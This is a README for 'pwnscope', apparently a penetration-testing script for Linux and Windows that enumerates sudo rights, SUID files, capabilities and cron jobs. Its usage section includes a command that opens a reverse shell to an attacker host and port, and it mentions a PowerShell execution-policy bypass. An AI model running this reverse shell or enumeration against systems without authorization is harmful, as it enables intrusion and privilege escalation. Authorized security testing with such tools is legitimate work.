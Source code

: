 # pwnscope

![grafik](https://github.com/user-attachments/assets/36d0ef20-da06-463b-a16e-dd0867944c78)


**pwnscope** is a lightweight Linux and Windows reconnaissance and minimal exploit toolkit script designed to help security professionals quickly gather system information and perform basic exploitation.
It's designed to run smarter and faster than other recon scripts yet. So just give it a try!

---

## Features

* Quick system overview (`--short`)
* Full enumeration including sudo privileges, SUID files, capabilities, cron jobs, network info, and Docker check (`--full`)
* Minimal reverse shell exploit via bash/sh (`--exploit`) requiring `LHOST` and `LPORT` environment variables

---

## Requirements

### Linux OS
* Bash or compatible shell (works with `/bin/bash`, `/bin/sh`, `ash`, etc.)
* Linux environment
* `sudo` privileges for some extended checks (optional)
* Basic utilities like `find`, `ps`, `ss`, `ip`, `free`, `df`, `getcap`

### Windows OS
* Admin rights
* Powershell exec bypass

---

## Usage Linux (Windows same with *.ps1 extension instead)

```bash
# Display help and usage
./pwnscope.sh

# Quick system info
./pwnscope.sh --short

# Full system enumeration
./pwnscope.sh --full

# Minimal reverse shell exploit
LHOST=10.10.10.4 LPORT=4444 ./pwnscope.sh --exploit
```

---

## Example Output

### Quick overview:

```
[*] Quick System Overview
Hostname: vulnserver
User: root
Kernel: 5.15.0-73-generic
Uptime: up 3 hours, 25 minutes
CPU Info: Intel(R) Xeon(R) CPU E5-2673 v4 @ 2.30GHz
Memory Usage:
              total        used        free      shared  buff/cache   available
Mem:           3.7G        1.1G        1.5G         54M        1.1G        2.3G
Swap:          0B          0B          0B
Disk Usage (root):
/dev/sda1        50G        15G        33G   31% /
Top 5 processes by memory:
root       1234  4.2  3.1  987654 123456 ?    Sl   10:00   0:05 java
...
Open ports:
LISTEN   0      128         0.0.0.0:22          0.0.0.0:*  
LISTEN   0      128         127.0.0.1:5432      0.0.0.0:*  
...
```

---

## License

MIT License — see the [LICENSE](LICENSE) file for details.

---

## Disclaimer

This tool is intended for authorized penetration testing and security assessments only. Use responsibly and legally.
